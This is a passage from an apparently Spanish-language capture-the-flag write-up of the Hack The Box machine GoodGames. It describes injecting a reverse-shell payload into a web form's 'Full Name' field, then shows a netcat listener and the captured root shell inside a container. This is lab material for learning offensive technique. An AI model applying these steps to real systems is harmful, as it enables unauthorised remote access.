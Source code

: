 Podemos ver si podemos como tal ejecutar código y si ![](/assets/images/htb-writeup-goodgames/2.png)

Vemos que estamos como el usuario **root** lo cual es raro ya que no siempre suele pasar esto pero bueno lo mas probable es que ganemos acceso a un **contenedor** 

![](/assets/images/htb-writeup-goodgames/web29.png)

## Shell as root in a container

Como podemos ejecutar comandos vamos a enviarnos una reverse shell ![](/assets/images/htb-writeup-goodgames/3.png)

Nos ponemos en escucha

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```

Y bueno una vez podemos todo ese **payload** en el campo **Full Name** y le damos en **Save all** tenemos la **shell**

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.130 60676
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# 
```
